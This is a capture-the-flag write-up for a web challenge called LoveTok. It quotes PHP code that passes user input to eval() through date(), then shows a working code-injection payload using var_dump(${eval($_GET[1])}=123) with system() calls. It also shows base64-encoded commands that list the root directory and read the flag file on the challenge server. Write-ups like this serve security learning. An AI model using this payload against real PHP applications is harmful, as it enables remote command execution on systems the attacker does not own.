




# LoveTok

#### We are given a docker container and a ip and port to connect to trough http

* Looking trough the php code of the site, we find this exploatable part:*

~~~php
 public function __construct($format)

 {

 $this->format = addslashes($format);

  

 [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];

 $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";

 }

 public function getTime()

 {

 eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');

 return isset($time) ? $time : 'Something went terribly wrong';

 }
~~~

* After some googling, found this link : https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php *

* The exploit looks like this : 

~~~
<url>?format=var_dump(${eval($_GET[1])}=123)&1=system( < payload > );
~~~

* Testing the vuln.. it works.

* Now to forge the payload:
	* Location of flag.txt is not in the root www folder, but in the root directory and has a randomised name: ( we know this from the docker container)

~~~bash
	chmod 600 /entrypoint.sh
	FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
	mv /flag /flag$FLAG
	exec "$@"
~~~

* So first off, we try to see what the flag name is : \<payload> = <Mark>"ls /"</Mark> -> Application crashed
* Try to url encode..  \<payload> = <Mark>"ls%20%2F"</Mark>  -> Application crashed
* Try to base64 encode.. \<payload> = <Mark>"base64_decode(bHMgLw)"</Mark> 
		* Worked! 
		* 
	* Next step is to just read the flag... 

Final payload : 
~~~bash
http://134.209.191.159:31222/?format=var_dump(${eval($_GET[1])}=123)&1=system(base64_decode(Y2F0IC9mbGFneDU3MVA));
~~~